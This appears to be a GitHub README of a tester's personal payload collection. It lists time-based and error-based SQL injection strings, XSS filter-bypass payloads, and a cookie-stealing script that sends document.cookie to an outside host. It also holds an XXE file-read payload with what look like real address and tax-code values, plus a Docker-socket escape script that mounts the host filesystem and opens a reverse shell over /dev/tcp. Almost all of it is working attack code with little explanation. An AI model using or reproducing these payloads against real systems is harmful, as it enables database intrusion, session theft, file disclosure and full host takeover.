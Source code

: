 ## Just a useless set of payload used by me. Saved here for remembrance.

### SQL Injection
#### Time Based Blind:
 - `(select(if(user()like(user()),sleep(4),sleep(2))))` (Timed Based Blind)
 - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")
 - `x' AND (SELECT 4321 FROM (SELECT(SLEEP(2-(IF(20=20,0,5)))))x)-- asd` (Timed Based Blind)
 - `x' AND (SELECT 2312 FROM (SELECT(SLEEP(2)))asd)-- dsa` (Timed Based Blind)

### Cross Site Scripting
 - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
 - `['h0nus'].find(window[String.fromCharCode(97,108,101,114,116)])` (pops an alert with h0nus string :) useful for waf bypasses or evade checks)
 - `('asd').link(eval("var asd=new Function('return prompt(\"h0nus\")'); asd();"))` (pops a prompt with h0nus string )
 - `('asd').anchor(prompt());` (just pops a prompt) 
 - `var url="https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies

### XML External Entity
 - ```<?xml version="1.0" ?><!DOCTYPE message [<!ENTITY % local_dtd SYSTEM "https://docs.oracle.com/cd/E13153_01/wlcp/wlss40/sip-app_1_0.dtd.txt">
<!ENTITY % condition 'aaa)>
<!ENTITY &#x25; file SYSTEM "/opt/hybris/deployments/dist.tar.deploy/hybris/confi">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://&#x25;file;:asd@localhost:22&#x27;>">
&x25;eval;
&x25;error;
<!ELEMENT aa (bb'>
%local_dtd;
]><data>
 <lastName>asd</lastName>
 <notes>atest</notes>
 <town>Lucca</town>
 <streetNumber>15</streetNumber>
 <postalCode>46794</postalCode>
 <taxCode>XTJBNH44R30D793Y</taxCode>
 <firstName>&error;</firstName>
 <streetName>asd</streetName>
 <countryIso>it</countryIso>
 <phone>3462617384</phone>
 <district>LU</district>
 <shippingAddress>false</shippingAddress>
 <billingAddress>false</billingAddress>
 <vatCode>02313821007</vatCode>
 <defaultAddress>false</defaultAddress>
</data>``` (Used when i had no space left for internal entities into payload/dtd) 
 -  `<![CDATA[ <script>prompt(2)</script> ]]>` (Sometimes WAFS block by keywords like DOCTYPE, ENTITY & ect, but you can inject into `<![CDATA[X]]>` )

### PWN scripts/tips
* Docker:
  * Get all containers or images:
    * `curl -i -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json`

  * Create a new container
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H "Content-Type: application/json" \
    --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["bash", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
    http://localhost/containers/container_id/exec`

  * Start the newer container with the command
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H 'Content-Type: application/json' \
    --data-binary '{"Detach": false,"Tty": false}' \
    http://localhost/exec/exec_id/start`
    
  * Final PoC:
    * `#!/bin/bash
    pay="bash -c 'bash -i >& /dev/tcp/10.10.14.194/7777 0>&1'"
    payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
    response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
    revShellContainerID=$(echo "$response" | cut -d'"' -f4)
    curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
    sleep 1
    curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`
